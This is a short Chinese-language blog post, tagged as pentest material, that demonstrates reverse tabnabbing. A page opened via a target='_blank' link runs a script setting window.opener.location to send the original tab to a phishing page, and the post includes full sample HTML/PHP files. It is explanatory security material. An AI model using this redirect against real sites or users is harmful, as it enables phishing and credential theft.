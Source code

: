 +++
date = "2016-10-12T10:24:38+08:00"
description = ""
draft = false
tags = ["钓鱼"]
title = "利用_blank属性钓鱼"
topics = ["Pentest"]

+++

### 0x00 _blank
> _blank是html中的标签属性，如```<a target="_blank" href="http://xss.reber-9.com/1.php">HELLO</a>```, 但若点击HELLO打开的网页1.php中有如下代码：
```
<script>
if(window.opener){
  window.opener.location  = "http://xss.reber-9.com/fish.html";
}
</script>
```
则原网页将转跳到http://xss.reber-9.com/fish.html ，这就会造成钓鱼

### 0x01 简单模板
* a.html内容如下：

> ```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>
    <a target="_blank" href="http://xss.reber-9.com/1.php">HELLO</a>
</body>
</html>
```

* ```http://xss.reber-9.com/1.php```中1.php内容如下：

> ```
<html>
<head>
    <title>test</title>
    <script>
        if(window.opener){
            window.opener.location = "http://xss.reber-9.com/fish.html";
        }
    </script>
</head>
<body>
    <p>hello</p>
</body>
</html>
```

* 1.php同级下有个钓鱼模板fish.html，内容如下：

> ```
<html>
<head>
    <title>fish</title>
</head>
<body>
    <h2>This is fishing template!</h2>
</body>
</html>
```

* 点击a.html中的HELLO则会出现下面的情况，也就导致了钓鱼：

> {{% fluid_img src="/img/post/blank.gif" alt="blank钓鱼" %}}